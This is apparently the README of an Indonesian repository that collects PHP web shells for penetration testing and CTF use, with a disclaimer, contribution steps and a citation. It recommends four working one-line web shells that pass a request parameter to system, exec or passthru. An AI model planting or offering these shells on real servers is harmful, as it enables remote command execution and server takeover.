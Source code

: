 <p align="left"><a href="https://www.itsecurity.id/"><img height="150" title="Xcod3bughunt3r" src="face.png"/></a></p>

# `PHP Web Shells`
#### ``Common PHP Shells adalah koleksi Webshell PHP yang mungkin Anda butuhkan untuk uji penetrasi Anda (PT) atau dalam tantangan CTF. Jangan meng-host salah satu file di server web yang dapat diakses publik (kecuali Anda tahu apa yang Anda siapkan). Ini disediakan untuk tujuan pendidikan saja dan kasus-kasus PT yang sah. Saya akan terus memperbarui koleksi apa pun saya tersandung pada webshell baru.``

## `Berkontribusi`
#### ``Untuk menyumbangkan cangkang lain yang tidak tercantum di sini. Fork, dorong perubahan pada repo Anda, maka sebelum Anda meminta tarikan, pastikan untuk memasukkan deskripsi sederhana dari "PHP Web Shell" Anda dan sertakan screen-shot shell Anda (sebagai yang dihosting di localhost Anda).``

## `FYI`
#### ``Untuk fitur dasar, saya sarankan satu liner seperti :``
````
<?php echo passthru($_GET['cmd']); ?>
<?php echo exec($_POST['cmd']); ?>
<?php system($_GET['cmd']); ?>
<?php passthru($_REQUEST['cmd']); ?>
````

## `Mengutip:`
```
@software{ALIF_FUSOBAR_2022_3748072,
  author       = {ALIF FUSOBAR and
                  RACHMAD and
                  ROSIANA},
  title        = {Xcod3bughunt3r/phpwebshells: Collection PHP Web Shells CS1},
  month        = Agustus,
  year         = 2022,
  publisher    = {ALIF FUSOBAR},
  version      = {1.1},
  doi          = {10.5281/zenodo.3748072},
  url          = {https://doi.org/10.5281/zenodo.3748072}
}
```

___

### ``Harap Periksa`` *[LICENSE](LICENSE)*
## ``Magister:``*[ALIF FUSOBAR](https://github.com/Xcod3bughunt3r/Xcod3bughunt3r)*
## `Anggota Modifikasi :`
+ `Rachmad Dwi Putra`
+ `Andrian Muchlis`
+ `Abaizul`
+ `Raihan`
+ `Mahluk Bumi`
+ `Buzza`
+ `Rosiana`
+ `Aisyah`


